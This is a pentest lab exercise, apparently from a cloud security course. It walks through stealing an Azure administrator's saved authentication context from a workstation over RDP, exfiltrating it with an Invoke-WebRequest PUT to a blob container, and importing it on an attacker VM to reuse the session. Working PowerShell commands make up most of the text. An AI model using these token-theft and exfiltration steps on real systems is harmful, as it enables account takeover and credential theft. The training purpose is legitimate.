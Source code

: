 


## Hands-on exercise – stealing and reusing tokens from an authenticated Azure admin system
In this exercise, we will be exporting cached tokens from the system of an authenticated Azure admin user and reusing those tokens on our pentest VM. Here are the tasks that we will complete in this exercise:

### Task 1 - Review the information for this exercise

1. On your pentest VM, browse to the following path **`C:\Users\pentestadmin\Desktop\ExerciseFiles\Modules\03`** and open the file named **`admin-token-theft-info.txt`** for later reference. There are six values that you will find in the file:
   * **Azure Admin User - Username**: This is the Azure administrator username whose token will be stolen from a workstation.
   * **Azure Admin User - Password**: This is the password of the Azure administrator user whose credential will be stolen.
   * **VM Public IP**: The public IP of the Admin workstation VM that the token will be stolen from.
   * **VM Admin Username**: The local user that you will use to authenticate to the workstation.
   * **VM Admin User Password**: The password of the local user that you will use to authenticate to the workstation.
   * **Exfiltration Storage Location**: The blob container that you will exfiltrate the stolen credential to and download it from for reuse from your pentest VM.

### Task 2 - Connect to the victim's PC and exfiltrate the token (Windows)
1. Open an RDP client on your PC and connect to the **`VM Public IP`** listed in your exercise file. When prompted to authenticate, use the **`VM Admin Username`** value as the username and the **`VM Admin User Password`** value as the password.

2. Within the RDP session to VM, open a PowerShell console and authenticate to Azure as the victim admin using the following commands:
   * Replace the placeholders for **`AZURE_ADMIN_USER_PASSWORD`** and **`AZURE_ADMIN_USER_USERNAME`** with the actual values from your exercise file.
```
$SecurePassword = ConvertTo-SecureString "AZURE_ADMIN_USER_PASSWORD" -AsPlainText -Force

$Credential = New-Object System.Management.Automation.PSCredential ("AZURE_ADMIN_USER_USERNAME", $SecurePassword)

Connect-AzAccount -Credential $Credential
```

3. Verify authentication using the following command:
* The command lists all the resource groups in the victim's Azure environment. If you get an error, verify that you have the correct username and password.
```
Get-AzResourceGroup
```

4. At this point, we can act as an attacker with an active session on the system and save the current context for exfiltration to another system for reuse.

5. Save the current authentication context and verify that the context has been saved using the following commands:
```
Save-AzContext -Path azureprofile.json
Get-ChildItem azureprofile.json
```

6. Compress the saved authentication context and verify using the following commands:
```
7z a azureprofile.zip azureprofile.json
Get-ChildItem azureprofile.zip
```

7. Exfiltrate the compressed authentication context to the blob container listed in your exercise file, using the following command. Replace the placeholder with the value of Exfiltration Storage Location. Ensure that there are no line breaks before pasting this. You should get an HTTP 201 response:
```
Invoke-WebRequest -Method 'PUT' -Uri 'TOKEN_EXFILTRATION_STORAGE_LOCATION' -InFile 'azureprofile.zip' -Headers @{"x-ms-blob-type"="BlockBlob"} -UseBasicParsing
```

### Task 3 - Reuse the stolen token from your pentest VM
* In this task, we will used the exfiltrated context to gain access as the user in another environment

1. Switch back to your pentest VM, open a PowerShell console. 

2. Verify that you currently do not have a connection to the victim's Azure environment by using the following commands. You should get an error message. The first command **`Disconnect-AzAccount`** logs you out of your own Azure environment if you have authenticated previously.
```
Disconnect-AzAccount 

Get-AzResourceGroup
```

3. Download and verify the exfiltrated context file using the following command. Replace the placeholder with the value of Exfiltration Storage Location that you copied from the script's output:
```
Invoke-WebRequest -Uri "TOKEN_EXFILTRATION_STORAGE_LOCATION" -OutFile azureprofile.zip

Get-ChildItem azureprofile.zip
```
    
4. Extract the downloaded file using the following command and verify the extracted file:
```
7z e azureprofile.zip
Get-ChildItem -Filter azureprofile.*
```

5. Restore the authentication context to your pentest VM using the following command:
```
Import-AzContext -Path .\azureprofile.json
```

6. Verify that the context has successfully been applied to your pentest VM by running commands with the stolen admin authentication context. At this point, you have validated that an authentication context can be stolen from an administrator's system, exported, and reused from an attacker's system:
```
Get-AzResourceGroup
```

